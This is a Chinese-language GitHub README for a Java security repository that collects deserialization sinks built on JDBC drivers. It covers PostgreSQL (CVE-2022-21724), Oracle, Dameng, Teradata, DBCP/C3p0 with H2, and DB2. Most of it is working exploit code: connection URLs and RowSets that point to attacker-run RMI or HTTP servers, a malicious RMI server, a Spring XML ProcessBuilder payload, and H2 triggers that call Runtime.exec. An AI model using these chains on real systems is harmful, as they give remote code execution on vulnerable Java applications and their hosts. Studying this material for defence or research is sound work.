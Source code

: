 # Deserial_Sink_With_JDBC

> 如果你：
>
> 厌倦了高版本JDK中TemplatesImpl已经被移除
>
> 寻找gadget却想不到sink
>
> 无法扩大JDBC攻击的危害
>
> ...
>
> 不妨试试以下JDBC与原生反序列化的结合
> (以下sink均为getter触发，可配合cb、fj、jackson等链子使用)

---

### Postgresql

PostgreSQL的JDBC存在一个CVE-2022-21724，其影响范围是

> 9.4.1208 <=PgJDBC <42.2.25
>
> 42.3.0 <=PgJDBC < 42.3.2

Sink构造

```java
        String command = "jdbc:postgresql://node/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://127.0.0.1:2333/test.xml";
        PGSimpleDataSource dataSource = new PGSimpleDataSource();
        dataSource.setUrl(command);
```

利用`python3 -m http.server 2333`本地开启一个http服务，其中test.xml的文件内容为

```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>open</value>
                <value>-a</value>
                <value>Calculator</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

具体代码见src/main/java/postgresql包下内容

### oracle

Sink构造

```java
        // sink
        OracleCachedRowSet oracleCachedRowSet = new OracleCachedRowSet();
        oracleCachedRowSet.setDataSourceName("rmi://127.0.0.1:1099/Exploit");
```

具体代码见src/main/java/oracle包下内容

### Dameng(达梦)

Sink构造，构造时需要设置Reader和Writer为null，使得writeObject的时候忽略掉这2个不可序列化的field

```java
        DmdbRowSet dmdbRowSet = new DmdbRowSet();
        dmdbRowSet.setDataSourceName("rmi://127.0.0.1:1099/Exploit");
        dmdbRowSet.setReader(null);
        dmdbRowSet.setWriter(null);
```

具体代码见src/main/java/dameng包下内容

### Teradata

Sink构造，此gadget为[ppt](https://i.blackhat.com/Asia-23/AS-23-Yuanzhen-A-new-attack-interface-in-Java.pdf)内容，不做过多讲解

```java
        String command = "open -a Calculator";
        TeraDataSource dataSource = new TeraDataSource();
        dataSource.setBROWSER(command);
        dataSource.setLOGMECH("BROWSER");
        dataSource.setDSName("127.0.0.1");
        dataSource.setDbsPort("10250");
```

`python3 fakeserver.py`开启恶意server

`python3 fakesso.py`开启恶意sso

具体代码见src/main/java/teradata包下内容

---

> 如果datasource并不能序列化，我们可以是用c3p0或dbcp来调用getConnection

### Dbcp H2

sink构造

```java
        // sink but use dbcp bypass jndi
        String command = "rmi://127.0.0.1:1099/Exploit";
        SharedPoolDataSource dataSource = new SharedPoolDataSource();
        dataSource.setDataSourceName(command);
```

同时为了应对高版本的JNDI注入，我们可以有如下恶意RMI Server

```java
        Registry registry = LocateRegistry.createRegistry(rmi_port);
        ResourceRef ref = new ResourceRef(
                "javax.sql.DataSource",
                null,
                "", "", true,
                "org.apache.commons.dbcp2.BasicDataSourceFactory",
                null);
        String JDBC_URL = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
                "INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
                "java.lang.Runtime.getRuntime().exec('open -a Calculator')\n" +
                "$$\n";
        ref.add(new StringRefAddr("driverClassName","org.h2.Driver"));
        ref.add(new StringRefAddr("url",JDBC_URL));
        ref.add(new StringRefAddr("username","root"));
        ref.add(new StringRefAddr("password","password"));
        ref.add(new StringRefAddr("initialSize","1"));
```

具体代码见src/main/java/dbcp2/h2包下内容

### C3p0 H2

sink构造

```java
        // sink
        String command = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
                "INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
                "java.lang.Runtime.getRuntime().exec('open -a Calculator')\n" +
                "$$\n";
        ComboPooledDataSource dataSource = new ComboPooledDataSource();
        dataSource.setJdbcUrl(command);
```

具体代码见src/main/java/c3p0/h2包下内容

### C3p0 ibm db2

sink构造

```java
        String command = "jdbc:db2://127.0.0.1:50001/BLUDB:clientRerouteServerListJNDIName=rmi://127.0.0.1:1099/Exploit;";
        ComboPooledDataSource dataSource = new ComboPooledDataSource();
        dataSource.setJdbcUrl(command);
```

具体代码见src/main/java/c3p0/ibmdb2包下内容

---

### Ref

- https://github.com/Y4tacker/JavaSec

- https://tttang.com/archive/1405/

- https://i.blackhat.com/Asia-23/AS-23-Yuanzhen-A-new-attack-interface-in-Java.pdf

- https://mogwailabs.de/en/blog/2023/04/look-mama-no-templatesimpl/

  
